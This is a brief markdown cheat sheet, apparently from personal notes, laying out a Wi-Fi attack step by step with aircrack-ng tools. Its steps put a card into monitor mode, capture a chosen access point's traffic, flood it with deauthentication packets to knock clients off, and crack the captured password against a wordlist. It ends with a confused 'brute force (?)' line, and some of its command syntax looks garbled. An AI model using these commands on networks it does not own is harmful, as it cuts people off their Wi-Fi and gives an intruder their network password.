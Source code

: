## Wifi DoS Attack

1. Put your wireless network interface into monitor mode:
	`airmon-ng start <ifname>`
1. Find out to WiFi connections:
	`airodump-ng <monifname>`
1. Monitor only the BSSID target:
	`airodump-ng [-w <packets>] -c <channel> -d <bssid> <monifname>`
1. Run a DoS attack:
	`aireplay-ng -00 -a <bssid> <monifname>`
1. _Stop the DoS attack_
1. Broken the password:
	`aircrack-ng [-a2] -w <dictionary> <packets>-<xy>.cap`

- Brute force (?):
	`aircrack-ng [-a2] -w <packets>-<xy>.cap -b <bssid> <monifname>`
